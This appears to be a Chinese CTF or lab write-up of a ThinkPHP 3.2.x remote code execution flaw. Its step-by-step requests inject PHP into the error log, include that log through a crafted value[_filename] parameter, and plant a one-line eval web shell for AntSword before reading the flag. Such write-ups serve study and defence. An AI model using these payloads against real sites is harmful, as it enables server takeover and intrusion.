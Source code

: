 # ThinkPHP 3.2.x远程代码执行
## 漏洞描述
ThinkPHP的远程代码执行漏洞是在受影响的版本中，业务代码中如果模板赋值方法assign的第一个参数可控，则可导致模板文件路径变量被覆盖为携带攻击代码的文件路径，造成任意文件包含，执行任意代码。

## 影响版本
ThinkPHP3.2.x

## 利用流程
1.访问地址：118.193.36.37:59521
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/1.jpg)
2.写入攻击代码到日志中。错误请求系统报错：
```
118.193.36.37:59521/index.php?m=--><?=phpinfo();?>
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/2.png)
3.日志文件路径（这里是默认配置的log文件路径，ThinkPHP的日志路径和日期相关）：
```
\Application\Runtime\Logs\Common\21_07_20.log
```
4.构造攻击请求：
```
118.193.36.37:59521/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_07_20.log
```
5.蚁剑连接 
```
118.193.36.37:59521/index.php?m=--><?=eval(@$_POST['a']);?>
```
测试成功 但无法访问
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/3.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/4.jpg)
传入phpinfo Ctrl+g得到flag
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/5.jpg)
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/ThinkPHP%203.2.x%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/6.jpg)
